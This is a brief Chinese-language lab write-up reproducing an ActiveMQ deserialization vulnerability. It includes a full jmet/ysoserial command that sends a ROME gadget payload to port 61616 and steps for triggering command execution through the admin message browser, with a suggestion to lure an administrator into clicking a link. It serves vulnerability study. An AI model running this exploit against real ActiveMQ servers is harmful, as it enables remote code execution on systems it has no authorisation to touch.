 ### 漏洞复现：

> 前提：需要使用管理员权限的账号或者诱导管理员点击固定连接

· 构造可执行命令的序列化对象  
这里使用的是 jmet[下载地址](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)，jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME。也可以单独使用 ysoserial 并发送。需要注意的是，使用 jmet 的时候需要在统计目录中创建一个名为 external 的文件夹，否则可能报文件夹不存在的错误
· 构造消息传递给目标的 61616 端口  

```powershell
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](/assets/img/posts/5d04559c3e45c87197.png)

· 使用管理员账号登陆管理界面，http://your-ip:8161/admin/browse.jsp? 点击查看消息详情，出发命令执行。 

![](/assets/img/posts/5d0456dc7307223516.png)

· 进入 docker 查看文件创建情况

![](/assets/img/posts/5d04573291c4e85321.png)
